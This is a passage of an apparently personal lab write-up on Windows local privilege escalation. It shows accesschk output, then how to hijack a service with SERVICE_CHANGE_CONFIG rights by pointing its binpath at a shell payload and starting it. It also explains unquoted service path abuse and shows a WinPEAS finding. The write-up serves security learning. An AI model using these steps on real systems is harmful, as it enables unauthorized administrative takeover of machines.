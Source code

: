 - But to obtain more information we can use a tool called **accesschk** which is by Microsoft, run it as follows `accesschk.exe /accepteula -uwcqv <current-user> <service>`, output is,

```
C:\PrivEsc>accesschk.exe /accepteula -uwcqv user daclsvc
daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL

```

- But the main part is `service_change_config` where we can change configuration of the service.
- Run `sc qc <service>` and then note the Binary_path_name(this can be also called as `binpath`), which we're going to change(evil smile)
- No create a playload which is of shell type and transfer it to the target machine
- Syntax to change the config, `sc config <service> <option>="<value>"`
- Now `sc config daclsvc binpath="<path>"` and now start the service `sc start daclsvc`

---

#### Unquoted Service Path:(USP)

- For services the path needs to be in quotes, if its not enclosed like that then we can exploit that loophole and get high privilege.

```
Vulnerability Insight: 
The Windows API must assume where to find the referenced application if the path contains spaces and is not enclosed by quotation marks. If, for example, a service uses the unquoted path:

Vulnerable Service: C:\Program Files\Ignite Data\Vuln Service\file.exe

The system will read this path in the following sequence from 1 to 4 to trigger malicous.exe through a writeable directory.

C:\Program.exe
C:\Program Files\Ignite.exe
C:\Program Files\Ignite Data\Vuln.exe
C:\Program Files\Ignite Data\Vuln Service\file.exe
```

- To get more information just use **WinPEAS** script with option `servicesinfo`, here we can see info if we can exploit any **Unquoted Service Path**, Here I ran the tool and the interesting part of output is like this,

```
unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - No quotes and Space detected  
```
